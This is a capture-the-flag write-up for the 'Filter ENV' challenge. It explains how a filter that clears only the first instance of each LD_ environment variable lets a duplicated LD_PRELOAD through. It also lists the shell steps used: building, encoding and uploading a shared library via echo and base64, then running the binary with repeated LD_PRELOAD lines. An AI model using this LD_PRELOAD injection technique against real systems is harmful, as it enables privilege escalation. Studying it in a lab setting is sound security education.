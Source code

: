 **Challenge: Filter ENV**

We get a attachment and a server to connect to. Attachment is a .c source code. Lets examine it.

First we see a lot of LD_XXXX. Lets skip that for a moment and look at the code.

When I scrolled down one of few things that caught my attention is a lot of NULLs everywhere. But since this is something to do with
enviroment, lets see what we can find about env or enviro...

Interesting things happen in the set_new_env function:

>   if (clearenv() != 0)<br/>
>     err(1, "clearenv");<br/>
> <br/>
>   environ = env;<br/>
>   filter_env();<br/>
> }<br/>

It is assigning env to environ which is a GLOBAL variable. If we follow filter_env() we can see:

>  for (p = unsafe; *p != NULL; p++) {<br/>
>    if (getenv(*p) != NULL) {<br/>
>     if (setenv(*p, "", 1) != 0)<br/>
>	err(1, "setenv");<br/>

But, != NULL? Where is that NULL. The environ = env should have been NULL terminated. 
If we look at this loop it is iterating ONCE through unsafe variables, then calls getenv with name as parameter and sets them to 
empty string. Since it runs only once and getenv() returns one result and setenv() also, it is working with a first variable with
the name. Here system is using the last variable so if we pass some LD_ twice (LD_PRELOAD for example) and give our own shared object,
it is possible to get code execution.

It doesnt matter what LD_ is set, we can run our own. We will run a LD_PRELOAD to specify a dynamic library to replace a function.
So we need to find something that can cat the flag.

We can ltrace to see what functions /usr/bin/id calls so we can preload. On the top we have a nice candidate:

> strrchr("/usr/bin/id", '/')                      = "/id"

If we connect to the server we are presented with a shell so we need to find a way to upload our custom library to the server. There is
not much options but as I said in some other writeup, there is always something, in this case zcat and base64.
If we do a pwd on the server we see we are in root. We can navigate to home and ls again and we see adminimum user and in that directory
we have flag and filterenv binary. So we need to cat the flag.

So now lets create and prepare our custom library. 

> gcc -shared object.c -o object.so<br/>
> gzip object.so<br/>
> base64 object.so.gz > objbase<br/>

Since we need to send it to the server we will use echo. Open the b64dump in vim and add echo before all lines so it looks like this:

> echo 'H4sICLMicFsAA29iamVjdC5zbwDtW21sHEcZfvf8kXNin52SD5ME5ahq1amUtZsqiUvk5Bx/bcB2' >> /tmp/object.so.gz<br/>
> echo .... for each line<br/>

Now we need to add some commands so it all executes for us after we upload the file:

> cd /tmp<br/>
> base64 -d object.so.gz > dump.so.gz<br/>
> gunzip dump*<br/>
> cd /home/adminimum/<br/>
> ./filterenv<br/>
> LD_PRELOAD=/tmp/dump.so<br/>
> LD_PRELOAD=/tmp/dump.so<br/>
> LD_PRELOAD=/tmp/dump.so<br/>
> LD_PRELOAD=/tmp/dump.so<br/>

Now connect to the server and just paste and it should execute the payload. It can fail or you can overflow it so add LD_PRELOAD
1by1 until you get it right. Payload: [Object Payload](https://github.com/robbie-re/CTF/blob/CTF/google-ctf-2018/beginners_challenges/filter_env/data/objbase "") and [Source](https://github.com/robbie-re/CTF/blob/CTF/google-ctf-2018/beginners_challenges/filter_env/data/object.c "")


flag: CTF{H3ll0-Kingc0p3}

